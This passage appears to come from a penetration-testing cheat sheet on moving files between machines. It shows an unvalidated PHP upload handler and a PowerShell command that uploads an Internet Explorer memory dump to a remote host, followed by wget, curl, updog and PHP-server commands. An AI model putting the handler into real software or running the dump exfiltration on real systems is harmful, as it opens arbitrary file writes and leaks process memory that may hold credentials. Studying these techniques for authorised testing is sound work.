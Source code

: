 ```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile) ?>
```

### This is how to use it

{% code overflow="wrap" %}
```bash
powershell (New-Object System.Net.WebClient).UploadFile('http://10.9.0.213/upload.php', 'iexplore.DMP')
```
{% endcode %}

## Different methods to setup the server for file transfer

To perform the file transfer we need to setup a server, besides using **updog**.

```bash
updog -p 80
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgd2qv5ieUJMsgL9sQva7HMIKCmJOZAhUhZODAit2mcxSZ2hfMnpbfm0dS3kphUB4lzRsN_ESov2ZP-y-1X0rR6LzNMzQbLx-P9qUfG8Js7SA7xUtjhAlgC1p7GPYSiVhGFXSJX0WADOIJuP_NWLL816B5cb22CHXbY7MkZC-sOS4DsP5-7-GU8rLDO3BtL/s16000/2.png" alt=""><figcaption></figcaption></figure>

### wget

We can use the wget command to transfer the file. **wget** is a powerful command to download files from the web. It should be noted that while doing file transfer using wget in windows, we need to mention the **-o** (-OutFile) flag in order to save the file. If we do not mention the flag then it will only return it as an object i.e., **WebResponseObject**. The command for wget in windows is:

```
powershell wget http://192.168.1.8/ignite.txt -o ignite.txt -o ignite.txt
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjFWdBQltBaUJTAtCOYfcBy_fCcC9edORpF2Z1TFZI-Gq_GunT8sy2utnIKca9YP-67ZV49XpjvodU84TXZoJaJSD3vfS0FWAp_VYNnqAjFKOWIlAKn02HDaKVzBAVSgA-tLCmoPRnh1aewVoxpcZ98VezBj0j_w49dhO-xiM43PCF9bdf_BwFLrmgky1A1/s16000/3.png" alt=""><figcaption></figcaption></figure>

### curl

Curl is a powerful command-line tool, which can be used to transfer files using various networking protocols. Following will be the command to transfer the file:

```bash
curl http://192.168.31.141/ignite.txt -o ignite.txt
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhkMNrZZDFuJvd25DW03_tRiVd9TBl-r3yJoYJgWDpvzj9YRA7t6yzzydRZRW4HzxaMMfIDhaN4u8JXJuIXax0xLXGg5rUK_38D3L2p1LtVD_2Q-BOm9b7voyQsXk9_LfHVRmHuYwXLrd7dPwKziZcl7BDNQYZzBaSJDhcztpweGpGcaATXUxbrSGS_B_IU/s16000/4.png" alt=""><figcaption></figcaption></figure>

### To setup a server using **PHP**, we can use the following command:

```php
php -S 0.0.0.0:8081
```
